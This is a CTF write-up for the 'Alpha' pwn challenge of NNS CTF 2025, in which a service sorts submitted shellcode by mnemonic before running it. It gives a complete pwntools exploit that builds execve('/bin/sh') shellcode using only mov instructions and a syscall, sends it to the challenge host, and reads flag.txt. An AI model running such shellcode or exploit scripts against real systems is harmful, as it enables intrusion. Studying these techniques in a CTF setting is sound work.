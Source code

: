# Alpha – NNS CTF 2025 (PWN)

## Challenge description

> _"I read online that aligning your shellcode is really important."_

We’re given a Python service that:

1. Reads user-provided shellcode as hex.
2. Disassembles it with Capstone.
3. Sorts the instructions alphabetically by mnemonic.
4. Reassembles and executes it.

## Vulnerable code
```python
shellcode = bytes.fromhex(input(">> "))

sorted_shellcode = b"".join(
    bytes(i.bytes) for i in sorted(
        list(md.disasm(shellcode, 0)),
        key=lambda i: i.mnemonic or ""
    )
)

with process(make_elf(sorted_shellcode, extract=False), stdin=0) as p:
    p.interactive()
```
- Any normal shellcode is destroyed since instructions are reordered.
- But the sorting is **stable**: instructions with the same mnemonic keep their relative order.

## Exploitation idea

We can bypass the “ugly shellcode sorter” by crafting shellcode where reordering doesn’t matter.

Key trick:
- Use only one mnemonic (`mov`) for all setup instructions.
- Sorting preserves the order of those `mov`s.
- Add a final `syscall` instruction (which sorts after `mov`).

Steps:
1. Write the string `"/bin/sh\x00"` onto the stack with `mov dword [rsp+off], imm32`.
2. Set registers with `mov`:
    - `rdi = rsp` (string pointer)
    - `rsi = 0`, `rdx = 0`, `rax = 59` (execve).
3. End with `syscall`.

Result: `execve("/bin/sh", 0, 0)` runs successfully.

## Exploit

We generate this “alignment-proof” shellcode, send it as hex, and then read the flag automatically:
```python
from pwn import *

context.update(arch="amd64", os="linux")

HOST = "082c0f5c-629a-4c52-8a2e-f29823c2db2b.chall.nnsc.tf"
PORT = 41337

def build_shellcode():
    return asm("""
        mov dword ptr [rsp], 0x6e69622f     ; "/bin"
        mov dword ptr [rsp+4], 0x0068732f   ; "/sh\\0"

        mov rdi, rsp
        mov esi, 0
        mov edx, 0
        mov eax, 59

        syscall
    """)

def main():
    sc = build_shellcode()
    hex_payload = sc.hex()

    io = remote(HOST, PORT, ssl=True, sni=HOST)
    io.recvuntil(b">> ")
    io.sendline(hex_payload.encode())

    # Spawn shell, grab flag
    io.sendline(b"cat flag.txt")
    flag = io.recvuntil(b"}", timeout=5).decode(errors="ignore").strip()
    print(f"[+] Flag: {flag}")

if __name__ == "__main__":
    main()
```
